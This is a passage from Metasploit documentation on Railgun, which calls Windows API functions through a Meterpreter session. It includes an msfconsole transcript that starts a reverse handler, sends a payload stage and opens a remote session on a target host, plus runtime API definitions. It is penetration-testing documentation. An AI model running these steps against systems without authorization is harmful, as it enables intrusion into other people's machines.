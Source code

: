 An "out" parameter will always be of a pointer datatype. Basically you tell Railgun how many bytes to allocate for the parameter, it allocates memory, provides a pointer to it when calling the function, and then it reads that region of memory that the function wrote, converts that to a Ruby object and adds it to the return hash.

An "inout" parameter serves as an input to the called function, but can be potentially modified by it. You can inspect the return hash for the modified value like an "out" parameter.

A quick way to define a new function at runtime can be done like the following example:
```
client.railgun.add_dll('user32','user32.dll')

client.railgun.add_function( 'user32', 'MessageBoxA', 'DWORD',[
        ["DWORD","hWnd","in"],
        ["PCHAR","lpText","in"],
        ["PCHAR","lpCaption","in"],
        ["DWORD","uType","in"],
        ])

>> client.railgun.user32.MessageBoxA(0,"Hello","world","MB_OK")
((((((and after you click OK on the target system)))))
=> {"GetLastError"=>0, "return"=>1}
```
However, if this function will most likely be used more than once, or it's part of the Windows API, then you should put it in the library.

## Usage
The best way to try Railgun is with irb in a Windows Meterpreter prompt. Here's an example of how to get there:
```
$ msfconsole -q
msf > use exploit/multi/handler 
msf exploit(handler) > run

[*] Started reverse handler on 192.168.1.64:4444 
[*] Starting the payload handler...
[*] Sending stage (769536 bytes) to 192.168.1.106
[*] Meterpreter session 1 opened (192.168.1.64:4444 -> 192.168.1.106:55148) at 2014-07-30 19:49:35 -0500

meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the meterpreter client

>>
```
Note that when you're running a post module or in irb, you always have a client or session object to work with, both point to same thing, which in this case is Msf::Sessions::Meterpreter_x86_Win. This Meterpreter session object gives you API access to the target machine, including the Railgun object Rex::Post::Meterpreter::Extensions::Stdapi::Railgun::Railgun. Here's how you simply access it:
<pre>
session.railgun
</pre>
If you run the above in irb, you will see that it returns information about all the DLLs, functions, constants, etc, except it's a little unfriendly to read because there's so much data. Fortunately, there are some handy tricks to help us to figure things out. For example, like we mentioned before, if you're not sure what DLLs are loaded, you can call the known_dll_names method:
```
>> session.railgun.known_dll_names
=> ["kernel32", "ntdll", "user32", "ws2_32", "iphlpapi", "advapi32", "shell32", "netapi32", "crypt32", "wlanapi", "wldap32", "version"]
```
Now, say we're interested in user32 and we want to find all the available functions (as well as return value's data type, parameters), another handy trick is this:
<pre>